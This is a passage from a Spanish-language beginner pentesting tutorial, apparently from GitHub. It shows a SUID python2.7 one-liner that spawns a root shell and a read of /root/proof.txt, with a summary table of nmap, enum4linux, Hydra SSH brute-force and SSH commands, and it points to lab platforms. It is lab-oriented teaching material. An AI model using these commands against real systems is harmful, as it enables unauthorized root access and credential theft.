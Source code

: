 #### 6. 🔝 Escalada de privilegios

Revisamos archivos sudoers, programas SUID, y permisos especiales:

```bash
sudo -l
find / -perm -4000 2>/dev/null
```

Si encuentras algo como:

```bash
/usr/bin/python2.7 (SUID)
```

Puedes escalar privilegios así:

```bash
python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

---

#### 7. 🏁 Bandera o archivo objetivo

Busca en:

```bash
cat /root/proof.txt
```

¡Felicitaciones! ¡Has completado un pentest básico! 🎉

---

### 📑 RESUMEN

| Fase            | Herramienta              | Comando clave                              |
| --------------- | ------------------------ | ------------------------------------------ |
| Descubrimiento  | `nmap`                   | `nmap -sS -sV -O IP`                       |
| Enumeración SMB | `enum4linux`             | `enum4linux -a IP`                         |
| Fuerza bruta    | `Hydra`                  | `hydra -l usuario -P diccionario ssh://IP` |
| Acceso          | `ssh`                    | `ssh usuario@IP`                           |
| Escalada        | `find`, `sudo`, `python` | Buscar SUIDs y privilegios                 |

---

### 📌 ¿Dónde practicar Pentesting Básico?

| Plataforma                             | Recurso                  |
| -------------------------------------- | ------------------------ |
| [TryHackMe](https://tryhackme.com)     | Room: "Basic Pentesting" |
| [Hack The Box](https://hackthebox.com) | "Lame", "Blue", "Legacy" |
| [VulnHub](https://vulnhub.com)         | "Basic Pentesting: 1"    |

---